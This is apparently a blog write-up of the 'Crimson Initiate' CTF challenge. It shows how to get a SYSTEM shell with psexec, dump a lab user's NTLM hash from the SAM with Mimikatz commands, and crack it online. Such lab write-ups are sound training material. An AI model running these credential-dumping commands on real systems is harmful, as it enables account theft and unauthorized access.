 ```yaml
---
title: "Crimson Initiate"
date: 2024-07-01T13:11:20-10:01
tags: ['CTF','Writeups','Forensics','Hard']
---
```



# [Home](https://jjolley91.github.io/blog/) >

###  [Cyber Defense CTF](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/) >  [Forensics](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/forensics/)

## [Back](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/forensics/puzzle_pieces)  <> [Next](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/incident_response/)

#### NOTE - The resources needed for this challenge are on the Cyber Defense CTF Triage Workstation VM on our hosted platform.

### Let's dabble a bit on the offensive side. There is a user named crimson with admin privileges on the Triage Workstation. Use any method you prefer to get the user's password. The password is the flag.

#### You are able to download tools to the workstation if need be

For this challenge we are directed again to the Cyber Defense CTF Triage Workstation, and told that there is a user on the system named 'Crimson'. The objective is to retrieve their password. 

We can do this quite easily if we use [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20220919)!

Once mimikatz is downloaded and extracted, we can open a cmd prompt as the System user:

```powershell
psexec -i -s cmd.exe
```

Then we can start mimikatz and dump the NTLM hashed passwrods for all the users and look for the user Crimson.

```cmd
.\mimikatz.exe

privilege::debug

lsadump::sam
```

![crimson_initate_1](https://github.com/jjolley91/blog/blob/main/static/le_ctf_24/crimson_initate_1.png?raw=true)

Now that we have the NTLM hash all we need to do is crack it using your software of choice. I went with [Crackstation](https://crackstation.net/) for this, which cracked the hash without any issue, since it was a weak password.

![crimson_initate_2](https://github.com/jjolley91/blog/blob/main/static/le_ctf_24/crimson_initate_2.png?raw=true)


#### Note: This flag does not need to be in the leveleffect{} wrapper.

## [Back](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/forensics/puzzle_pieces)  <> [Next](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/incident_response/)